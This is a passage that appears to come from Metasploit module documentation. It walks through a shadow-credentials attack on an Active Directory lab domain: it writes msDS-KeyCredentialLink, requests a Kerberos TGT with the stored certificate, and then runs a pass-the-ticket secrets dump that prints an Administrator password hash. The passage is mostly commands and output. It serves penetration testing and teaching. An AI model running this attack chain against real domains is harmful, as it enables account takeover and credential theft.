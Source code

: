```msf
action => add
msf6 auxiliary(admin/ldap/shadow_credentials) > run
[*] Running module against 20.92.148.129

[*] Discovering base DN automatically
[+] 20.92.148.129:389 Discovered base DN: DC=msf,DC=local
[*] Certificate stored at: /home/user/.msf4/loot/20240404115740_default_20.92.148.129_windows.ad.cs_300384.pfx
[+] Successfully updated the msDS-KeyCredentialLink attribute; certificate with device ID 8a75b35e-f4d9-4469-49aa-3f0bfc692f07
[*] Auxiliary module execution completed
```

The LDAP property has been successfully updated. Now we can request a TGT using the `get_ticket` module.


```msf
msf6 auxiliary(admin/kerberos/get_ticket) > set rhosts 20.92.148.129
rhosts => 20.92.148.129
msf6 auxiliary(admin/kerberos/get_ticket) > set username victim
username => victim
msf6 auxiliary(admin/kerberos/get_ticket) > set domain MSF.LOCAL
domain => MSF.LOCAL
msf6 auxiliary(admin/kerberos/get_ticket) > set cert_file /home/user/.msf4/loot/20240404115740_default_20.92.148.129_windows.ad.cs_300384.pfx
cert_file => /home/user/.msf4/loot/20240404115740_default_20.92.148.129_windows.ad.cs_300384.pfx
msf6 auxiliary(admin/kerberos/get_ticket) > run
[*] Running module against 20.92.148.129

[!] Warning: Provided principal and realm (victim@MSF.LOCAL) do not match entries in certificate:
[*] 20.92.148.129:88 - Getting TGT for victim@MSF.LOCAL
[+] 20.92.148.129:88 - Received a valid TGT-Response
[*] 20.92.148.129:88 - TGT MIT Credential Cache ticket saved to /home/user/.msf4/loot/20240404120020_default_20.92.148.129_mit.kerberos.cca_046023.bin
[*] Auxiliary module execution completed
```

The saved TGT can be used in a pass-the-ticket style attack. For instance using the `auxiliary/gather/windows_secrets_dump` module:

```msf
msf6 auxiliary(gather/windows_secrets_dump) > run smb::auth=kerberos smb::rhostname=dc22 smbuser=victim smbdomain=msf.local rhost=20.92.148.129 domaincontrollerrhost=20.92.148.129
[*] Running module against 20.92.148.129

[*] 20.92.148.129:445 - Using cached credential for krbtgt/MSF.LOCAL@MSF.LOCAL victim@MSF.LOCAL
[+] 20.92.148.129:445 - 20.92.148.129:88 - Received a valid TGS-Response
[*] 20.92.148.129:445 - 20.92.148.129:445 - TGS MIT Credential Cache ticket saved to /home/user/.msf4/loot/20240404121510_default_20.92.148.129_mit.kerberos.cca_449355.bin
[+] 20.92.148.129:445 - 20.92.148.129:88 - Received a valid delegation TGS-Response
[*] 20.92.148.129:445 - Service RemoteRegistry is already running
[*] 20.92.148.129:445 - Retrieving target system bootKey
[+] 20.92.148.129:445 - bootKey: 0x019e09099ae1ec55560bc1e7f9414919
[*] 20.92.148.129:445 - Saving remote SAM database
[*] 20.92.148.129:445 - Dumping SAM hashes
[*] 20.92.148.129:445 - Password hints:
No users with password hints on this system
[*] 20.92.148.129:445 - Password hashes (pwdump format - uid:rid:lmhash:nthash:::):
Administrator:500:aad3b435b51404eeaad3b435b51404ee:26f8220ed7f1494c5737bd552e661f89:::
```

